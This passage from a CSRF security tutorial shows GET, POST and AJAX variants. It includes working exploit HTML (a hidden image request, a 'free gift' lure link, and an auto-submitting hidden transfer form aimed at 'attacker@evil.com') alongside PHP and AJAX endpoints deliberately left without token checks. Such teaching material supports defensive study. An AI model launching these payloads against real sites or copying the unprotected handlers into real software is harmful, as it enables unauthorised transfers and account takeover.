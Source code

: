 #### Exploitation Example
```html
<!-- Malicious website or email -->
<img src="https://vulnerable-app.com/admin/delete.php?action=delete&id=123" 
     style="display:none;">

<!-- Or as a link -->
<a href="https://vulnerable-app.com/transfer.php?amount=1000&to=attacker">
    Click here for free gift!
</a>
```

### 2. 📝 POST-based CSRF

More common in modern applications, requires form submission or AJAX requests.

#### Example Vulnerable Code
```php
<?php
// Vulnerable: No CSRF token validation
if ($_POST['action'] == 'transfer') {
    $amount = $_POST['amount'];
    $recipient = $_POST['recipient'];
    
    // Process money transfer
    transfer_money($current_user_id, $recipient, $amount);
    echo "Transfer completed";
}
?>
```

#### Exploitation Example
```html
<!-- Malicious form that auto-submits -->
<form id="csrf-form" action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="recipient" value="attacker@evil.com">
    <input type="hidden" name="action" value="transfer">
</form>

<script>
// Auto-submit the form when page loads
document.getElementById('csrf-form').submit();
</script>
```

### 3. ⚡ AJAX-based CSRF

Modern applications using AJAX can also be vulnerable to CSRF attacks.

#### Example Vulnerable AJAX Endpoint
```javascript
// Vulnerable: No CSRF protection on AJAX endpoint
$.ajax({
    url: '/api/change-password',
    method: 'POST',
    data: {
        new_password: 'user_input',
        confirm_password: 'user_input'
    },
    success: function(response) {
        alert('Password changed successfully');
    }
});
```
